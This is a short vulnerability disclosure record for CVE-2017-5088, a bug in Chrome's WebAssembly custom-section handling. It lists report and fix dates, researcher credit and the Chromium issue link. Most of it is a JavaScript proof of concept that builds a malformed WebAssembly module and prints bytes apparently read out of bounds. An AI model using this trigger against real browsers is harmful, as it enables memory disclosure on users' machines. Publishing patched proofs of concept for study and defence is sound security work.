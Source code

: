 # CVE-2017-5088

- Report: Jun 2017
- Fix: Jun 2017
- Credit: Xiling Gong of Tencent Security Platform Department

## PoC

```javascript
function log(){
    var str = "<h3>";
    for(var i=0;i<arguments.length;i++){
        str+=arguments[i];
    }
    str += "</h3>";
    document.write(str);
}
var m = WebAssembly.Module(new Uint8Array('00 61 73 6d 01 00 00 00 00 05 04 42 42 42 42 0 1F 04 41 41 41 41'.split(/[\s\r\n]+/g).map(v => parseInt(v, 16))));

var c = WebAssembly.Module.customSections(m, 'AAAA');

var ar = new Int8Array(c[0]);

for (i = 0; i < ar.length; i++) {
    log(ar[i]);
}
```

## Reference

- [Issue](https://crbug.com/729991)
